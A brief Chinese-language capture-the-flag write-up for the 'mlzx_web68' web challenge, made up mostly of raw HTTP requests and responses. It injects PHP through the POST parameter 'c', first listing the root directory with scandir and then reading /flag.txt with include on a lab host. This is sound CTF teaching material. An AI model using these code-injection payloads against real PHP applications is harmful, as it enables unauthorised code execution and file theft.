


# mlzx_web68

原地址：[GZCTF-challenges/mlzx/mlzx_web68](https://github.com/DeadlyUtopia/GZCTF-challenges/tree/main/mlzx/mlzx_web68)

不直接展示源码，禁用 `highlight_file`



直接获取 flag 位置

```http
POST / HTTP/1.1
Host: 192.168.128.131:32801
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

c=var_dump(scandir("/"));
```

```http
HTTP/1.1 200 OK
Date: Wed, 05 Nov 2025 01:23:47 GMT
Server: Apache/2.4.65 (Debian) PHP/8.2.29
X-Powered-By: PHP/8.2.29
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
Content-Length: 586

array(24) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10)
".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev"
[6]=> string(13) "entrypoint.sh" [7]=> string(3) "etc" [8]=> string(8)
"flag.txt" [9]=> string(4) "home" [10]=> string(3) "lib" [11]=> string(5)
"lib64" [12]=> string(5) "media" [13]=> string(3) "mnt" [14]=> string(3) "opt"
[15]=> string(4) "proc" [16]=> string(4) "root" [17]=> string(3) "run" [18]=>
string(4) "sbin" [19]=> string(3) "srv" [20]=> string(3) "sys" [21]=> string(3)
"tmp" [22]=> string(3) "usr" [23]=> string(3) "var" }
```



直接获取 `/flag.txt` 

```http
POST / HTTP/1.1
Host: 192.168.128.131:32801
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

c=include('/flag.txt');
```

```http
HTTP/1.1 200 OK
Date: Wed, 05 Nov 2025 01:28:24 GMT
Server: Apache/2.4.65 (Debian) PHP/8.2.29
X-Powered-By: PHP/8.2.29
Content-Type: text/html; charset=UTF-8
Content-Length: 30

flag{GZCTF_dynamic_flag_test}
```

